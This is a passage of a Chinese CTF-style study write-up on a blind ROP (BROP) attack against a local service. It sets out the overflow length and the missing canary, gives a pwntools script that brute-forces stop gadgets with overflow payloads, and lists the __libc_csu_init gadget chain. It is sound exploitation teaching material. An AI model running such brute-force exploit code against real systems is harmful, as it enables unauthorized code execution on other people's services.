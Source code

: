 最终得到`buffer`长度

<img src="D:\Github\pwn\pwn_study\images\brop_buffer_len.png" alt="brop_buffer_len" style="zoom:50%;" />

首先确定，栈溢出的长度为 72。同时，根据回显信息可以发现程序并没有开启 canary 保护，否则，就会有相应的报错内容。所以我们不需要执行 stack reading。



### 寻找 stop gadgets

> 通常addr初始值设为`0x400000`，但这个题目我为了节约时间就改成`0x4006b0`，通常在`_start`入口处前后会有`stop_gadgets`

```python
def get_stop_addr(length):
  addr = 0x4006b0  # No PIE
  while 1 :
    try :
      io = remote('127.0.0.1', 9999)
      io.recvuntil(b'WelCome my friend,Do you know password?\n')
      payload = b'a'*length + p64(addr)
      print('Temporary address is 0x%x'%(addr))
      io.sendline(payload)
      content = io.recv()  # if recv() doesn't cause crash, it means that it is a stop gadgets
      io.close()  # sometimes _start will not cause crash
      print('One success addr: 0x%x' % (addr))
      print('When the addr is found successfully, you will recieve the message from the remote: ',content)
      return addr
    except Exception:
      addr += 1
      io.close()
```

结合中间输出可以让结果有迹可循一点，次数找到了`0x4006b6`，为了找到开始地址，可以输出程序没有崩溃时的接收结果，看是否与程序开始时候的提示一致。

![brop_stop_gadgets](D:\Github\pwn\pwn_study\images\brop_stop_gadgets.png)



### 寻找 brop gadgets

> 此处是为了找到`__libc_csu_init`的末尾那一段重要部分，即
>
> ```assembly
> [*] 
> pop rbx, pop rbp, pop r12, pop r13, pop r14, pop r15, ret
> [*] + 0x7 
> pop rsi, pop r15, ret
> [*] + 0x9
> pop rdi, ret
> ```
>
> 需要借助
>
> ```C
> > probe, trap, trap, trap, trap, trap, trap, stop, traps
> 
> [*] probe : testing pointer.
> [*] traps : (trap, trap,...), you can add 10 traps or more to avoid the special situations.
> [*] Sometimes p64(0) is a good example of trap.
> ```
>
> 来识别
